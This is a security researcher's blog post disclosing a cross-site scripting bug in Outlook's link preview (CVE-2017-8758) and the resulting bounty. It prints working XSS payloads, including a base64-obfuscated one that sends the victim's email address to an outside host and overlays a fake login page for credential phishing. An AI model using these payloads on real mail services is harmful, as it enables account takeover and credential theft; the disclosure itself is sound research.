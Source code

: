 ```yaml
---
title: 'Uncovering a Bug I Found in Outlook: How Could an Account Has Been Compromised?'
layout: post
date: '2022-12-26 06:26:33'
---
```


### 1. Introduction

This blog post covers a [cross-site scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) bug that I found on [Microsoft Outlook](https://en.wikipedia.org/wiki/Microsoft_Outlook).

I realized that it would be a good idea to write about it for myself and for the benefit of the community.

This bug could have allowed hackers to take over a victim's account or gather sensitive data without the victim even opening an email.

### 2. TL;DR - PoC Video

I'm keeping the 1080p, longer, and uncensored version for myself.

[![](https://img.youtube.com/vi/aM2CgwQRlfk/0.jpg)](https://www.youtube.com/watch?v=aM2CgwQRlfk)

### 3. How I Found The Bug

1) The link preview feature was the vulnerable one. However, it only worked with a group of trusted domains. If a domain was not whitelisted, it would not be fetched. So, I searched for random strings on the search bar of Microsoft.com and Xbox.com and I collected domain of the results. It was my way to find these whitelisted domains. These domains did not necessarily had to be owned by Microsoft. For example, creating Prezi presentations was also working.

2) The vulnerable component was not fetching every part of those trusted websites. So, I needed to go and check different fields of those pages, such as changing the title, description, or other parts. I was not able to edit the fetched content on some of the websites because the preview functionality was only fetching HTML meta tags and so on.


3) So, I ended up my search with creating a post on gallery.technet.microsoft.com. This was the post I used for my report: [https://gallery.technet.microsoft.com/Test-etmek-icin-oneriler-c5b185d4]( https://gallery.technet.microsoft.com/Test-etmek-icin-oneriler-c5b185d4)

4) I used following payload as description/body field and it worked for me: 
```html
"><img src=x onerror= JAVASCRIPT-CODE-HERE.
```

5) To trigger the bug, you just need to send the URL in the email and that was it. If a victim opens or clicks the "checkbox", the payload was working.

6) As you can guess, it was possible to edit the payload remotely. After a successful attack you could even remove payloads from that page then the email wouldn't contain anything malicious but an URL of a page owned by Microsoft.

### 4. Technical Details of The PoC

1) As you can see in the PoC video above, I created a fake clone of the Outlook login page in PHP and saved login details into a MySQL database. I wanted to create a targeted (email field dynamically changes) fake page because in the original Outlook login page, it shows your email and asks for the password.


2) It was not possible to fit a big payload, so I needed to include my external JavaScript from my server, but I couldn't do because of the [CSP](https://en.wikipedia.org/wiki/Content_Security_Policy) as I remember.


3) The following JavaScript code sends the document.title (which contains the email address of the victim) and creates an iframe of my fake login page. **Note:** I couldn't find the original payload, but I wrote it manually by looking at my other PoC video, so typos may have happened.

```html
"><img src ="x" onerror="document.write('<iframe src="https://cok.kim/?email='+document.title+'" style="border: 0; position:fixed; top:0; left:0; right:0; bottom:0; width:100%; height:100%">')"
```

4) That one was breaking, so I used the following as the final encoded payload.

```html
"><img src="x" onerror="document.write(document.write(eval(atob('JzxpZnJhbWUgc3JjPSJodHRwczovL2Nvay5raW0vP2VtYWlsPScrZG9jdW1lbnQudGl0bGUrJyIgc3R5bGU9ImJvcmRlcjogMDsgcG9zaXRpb246Zml4ZWQ7IHRvcDowOyBsZWZ0OjA7IHJpZ2h0OjA7IGJvdHRvbTowOyB3aWR0aDoxMDAlOyBoZWlnaHQ6MTAwJSI+Jw==')))" >
```

5) My server-side code (it parses the email address of the victim from "Posta - victim@outlook.com"):
```php
<?php echo explode("-", $_GET['email'])[1]; ?>
```

## 5. Conclusion

Microsoft rewarded me with $5,000 and assigned a CVE ([CVE-2017-8758](https://msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8758)) for this bug because it was affecting the MS Exchange Server.

In the CVE description, it is written as **"Note: In order to exploit this vulnerability, a user must click a maliciously crafted link from an attacker.".** However, as you can see in the POC video, it was not even necessary to open it. When I asked about this, I learned that Microsoft writes generalized explanations to protect their users.

The PM asked if I would be attending Blackhat that year so we could meet in person. Unfortunately, I couldn't go due to a lack of a visa and funds. I was disappointed when I didn't see my name on the MSRC Top 100 Security Researchers of 2017 list.

For a year, I continued to report similar issues under my name and my nickname ([Arif Isik](https://en.wikipedia.org/wiki/G.O.R.A.#Cast), a movie character).

In 2018, I was listed 35th and Arif was 92nd on the [Microsoft’s Top 100 Security Researchers](https://msrc-blog.microsoft.com/2018/08/08/microsofts-top-100-security-researchers-black-hat-2018-edition/) list. I was also invited to [BlueHat](https://en.wikipedia.org/wiki/BlueHat) and had the chance to meet some engineers and visit the Microsoft headquarters in Seattle.
